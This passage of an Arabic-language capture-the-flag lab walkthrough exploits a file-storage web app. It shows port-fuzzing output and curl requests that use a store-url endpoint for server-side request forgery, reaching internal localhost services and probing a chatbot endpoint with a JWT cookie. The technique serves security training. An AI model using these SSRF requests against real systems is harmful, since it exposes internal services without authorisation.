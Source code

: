 ```bash
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 500
________________________________________________

80                      [Status: 200, Size: 106, Words: 5, Lines: 1, Duration: 182ms]
3000                    [Status: 200, Size: 106, Words: 5, Lines: 1, Duration: 229ms]
8000                    [Status: 200, Size: 106, Words: 5, Lines: 1, Duration: 276ms]
15672                   [Status: 200, Size: 106, Words: 5, Lines: 1, Duration: 234ms]
```
عندنا كم نتيجة، المدخل اللي نبغاه هو 3000:
```bash
➜  rabbitstore curl http://storage.cloudsite.thm/api/store-url -d '{"url":"http://localhost:3000/api/docs"}' -H 'Content-Type: application/json' -H 'Cookie: jwt=TOKEN'

{"message":"File stored from URL successfully","path":"/api/uploads/00dd382b-b4bf-4bd4-b0f8-5a0c1210eabf"}

➜  rabbitstore curl http://storage.cloudsite.thm/api/uploads/00dd382b-b4bf-4bd4-b0f8-5a0c1210eabf -H 'Cookie: jwt=TOKEN'

Endpoints Perfectly Completed

POST Requests:
/api/register - For registering user
/api/login - For loggin in the user
/api/upload - For uploading files
/api/store-url - For uploadion files via url
/api/fetch_messeges_from_chatbot - Currently, the chatbot is under development. Once development is complete, it will be used in the future.

GET Requests:
/api/uploads/filename - To view the uploaded files
/dashboard/inactive - Dashboard for inactive user
/dashboard/active - Dashboard for active user

Note: All requests to this endpoint are sent in JSON format. # Important Detail, so you don't waste time!
```
كلها عادية ومرت علينا إلا وحدة وهي fetch_messages_from_chatbot خلينا نرسل لها طلب ونشوف:
```bash
➜  rabbitstore curl http://storage.cloudsite.thm/api/store-url -d '{"url":"http://localhost:3000/api/fetch_messeges_from_chatbot"}' -H 'Content-Type: application/json' -H 'Cookie: jwt=TOKEN'

{"message":"File stored from URL successfully","path":"/api/uploads/74102115-da3d-4da7-8a25-6b0ec6dd2238"}

➜  rabbitstore curl http://storage.cloudsite.thm/api/uploads/e4e43418-e1a6-4dd5-bc40-37bbc1f90e35 -H 'Cookie: jwt=TOKEN'
{"message":"Token not provided"}
```
النقطة تطلب منك التوكن لكن مايمديك ترسل التوكن من خلال ثغرة SSRF لأنها ماهي بارامتر وإنما header حتى لو قدرت ترسل التوكن راح ترسل طلب إحضار GET والنقطة تستقبل طلبات إرسال POST، خلينا نشوف مدخل 80:
```bash
➜  rabbitstore curl http://storage.cloudsite.thm/api/fetch_messeges_from_chatbot -d '{"url":"ss"}' -H 'Content-Type: application/json' -H 'Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImFAYS5iIiwic3Vic2NyaXB0aW9uIjoiYWN0aXZlIiwiaWF0IjoxNzQ2MDIyMzIwLCJleHAiOjE3NDYwMjU5MjB9.yXqvbimp58qQmN97QjFs2_aWel0WRTN0erOYVc9D_mQ'
{
  "error": "username parameter is required"
}
```